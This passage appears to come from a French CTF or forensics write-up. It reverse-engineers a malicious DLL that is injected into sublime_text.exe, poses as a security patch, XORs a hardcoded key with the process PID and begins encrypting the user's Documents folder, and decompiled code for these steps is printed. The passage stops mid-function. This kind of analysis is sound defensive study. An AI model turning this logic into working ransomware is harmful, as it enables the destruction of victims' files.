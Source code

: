 ```c
140001c6e                      while (true)
```

Fonctionnement:
* Recupère le path de la dll qui est dans le dossier temporaire
* Ouvre un handle sur le process "sublime_text.exe" qui tourne sur le PC
* Inject la DLL dans le process 

On va donc récupérer la dll kernel64.dll grâce à MemprocFS : 
`M:\name\sublime_text.e-6788\files\modules\kernel64.dll`

## Reverse de la DLL

DllMain :
```c
292c71c86  int64_t DllMain(int64_t arg1, int32_t arg2)

292c71c8e      arg_8 = arg1
292c71c95      int64_t r8
292c71c95      arg_18 = r8
292c71cbb      if (arg2 != 3 && arg2 u<= 3 && arg2 != 2 && arg2 u<= 2 && arg2 != 0 && arg2 == 1)
292c71cbd          encode()
292c71cd5      return 1
```

Le main appelle juste une fonction `encode` :

```c
276071e7c  uint64_t encode()

276071e97      char PID = findPID("sublime_text.exe")
276071ec2      MessageBoxA(hWnd: nullptr, lpText: "Patch applique", lpCaption: "patch de securite", uType: MB_OK)
276071ec4      char* userdir = getUserDocumentsDirectory()
276071ed4      char const* const key = "Sup3R_k3y_th4t_is_secret"
276071edf      int32_t key_len = strlen(_Str: "Sup3R_k3y_th4t_is_secret")
276071ef1      int64_t var_40 = sx.q(key_len) - 1
276071eff      uint64_t rax_4 = (sx.q(key_len) + 0xf) u>> 4 << 4
276071f03      _.text(rax_4)
276071f4e      void encoded_key
276071f4e      for (int32_t i = 0; i s< key_len; i = i + 1)
276071f41          *(&encoded_key - rax_4 + 0x20 + sx.q(i)) = key[sx.q(i)] ^ PID
276071f70      return cipher_files(userdir, &encoded_key - rax_4 + 0x20, key_len)
```
Fonctionnement:
* recupère le PID de sublime_text.exe
* Encode une clé `Sup3R_k3y_th4t_is_secret` ^ PID_sublime_text
* Affiche "Patch applique" via une MsgBox
* Appelle une fonction `cipher_files` avec comme argument le path du directory Document du Current Users, la clé et la longueur de la clé

```c
292c71aad  uint64_t cipher_files(char* UserDocuments, int32_t S_PID)

292c71ad4      struct { struct _finddata64i32_t dd_dta; struct dirent dd_dir; __padding char _234[0x4];long long int dd_handle; int dd_stat; char dd_name[0x1]; }* dirp = opendir(szPath: UserDocuments)
292c71ae8      uint64_t rax_1
292c71ae8      if (dirp == 0)
292c71af8          rax_1 = perror(_ErrorMessage: "Failed to open directory")
292c71ae8      else
292c71bf5          while (true)
292c71bf5              struct dirent* directory = readdir(dirp)
292c71c09              if (directory == 0)
292c71c09                  break
```